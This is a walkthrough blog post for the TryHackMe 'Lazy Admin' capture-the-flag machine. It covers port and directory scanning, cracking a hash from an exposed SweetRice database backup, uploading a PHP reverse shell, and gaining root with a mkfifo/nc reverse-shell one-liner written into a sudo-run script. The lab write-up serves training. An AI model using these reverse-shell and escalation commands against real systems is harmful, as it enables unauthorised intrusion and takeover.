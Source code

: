 ```yaml
---
layout: post
permalink: /posts/thm/lazy-admin
title: "Lazy Admin"
---
```


Easy linux machine to practice your skills<br/>

Okay, let's start our enumeration with nmap scan

```
nmap -sC -sV <IP>
```

![nmap](/assets/images/thm/lazy-admin/nmap.png)

There are two open ports, 22 SSH and 80 HTTP. Go and visit the website.

![website](/assets/images/thm/lazy-admin/website.png)

It's Apache landing page. Let's scan for hidden directories with gobuster.

```
gobuster dir -u http://10.10.60.134/ -w SecLists/Discovery/Web-Content/directory-list-2.3-small.txt
```

![gobuster](/assets/images/thm/lazy-admin/gobuster.png)

We have found a directory `content`. It's CMS system called SweetRice. 

![content](/assets/images/thm/lazy-admin/content.png)

I searched for any known vulnerabilities in `https://www.exploit-db.com/` but wasn't sure which of the could help.

![exploit-db](/assets/images/thm/lazy-admin/exploit-db.png)

Let's scan this subdirectory.

```
gobuster dir -u http://10.10.60.134/content -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
```

![gobuster-content](/assets/images/thm/lazy-admin/gobuster-content.png)

One of the CVE reports is related with the `inc` directories where we'll be able to download the mysql backup. Go and visit this directory.

![mysql-backup](/assets/images/thm/lazy-admin/mysql-backup.png)

Download the mysql backup and see whether we'll be able to find any useful information

![sql](/assets/images/thm/lazy-admin/sql.png)

If you look closely you will find username `manager` with hash `42f749ade7f9e195bf475f37a44cafcb` <br/>

I'm going to use `https://crackstation.net/` to crack the password.

![crack](/assets/images/thm/lazy-admin/crack.png)

Good, now we have credentials. Go to `as` subdirectory and try to login.

![as](/assets/images/thm/lazy-admin/as.png)

![welcome](/assets/images/thm/lazy-admin/welcome.png)

Nice, I went back to the exploit db and looked for the apropriate exploit. It's `https://www.exploit-db.com/exploits/40700`. Now from left side menu navigate to Ads. There we'll paste our reverse php code `https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php` this is a good one. Dont forget to set your ip and port

![ads](/assets/images/thm/lazy-admin/ads.png)

Press done button and start a listener on your machine.

```
nc -lvnp 4444
```

Navigate to `<IP>/content/inc/ads/<YOUR_REVERSE_SHELL_FILE_NAME>`

![shell](/assets/images/thm/lazy-admin/shell.png)

Good. Look around the system and find the user flag. <br/>

The last thing that we have to do is to escalate our privileges. Let's check whether we are able to execute any commands as root

```
sudo -l
```

![sudo-l](/assets/images/thm/lazy-admin/sudo-l.png)

Let's see what is backup.pl

![backup](/assets/images/thm/lazy-admin/backup.png)

It executes a `copy.sh`

![copy](/assets/images/thm/lazy-admin/copy.png)

It looks that we already have the reverese shell we just need to change the ip

```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <YOUR-IP> 5554 >/tmp/f" > /etc/copy.sh
```

start netcat listener 

```
nc -lvnp 5554
```

and execute the script

```
sudo /usr/bin/perl /home/itguy/backup.pl
```

![root](/assets/images/thm/lazy-admin/root.png)

Nice, we were able to get root access. Now just find the root flag.
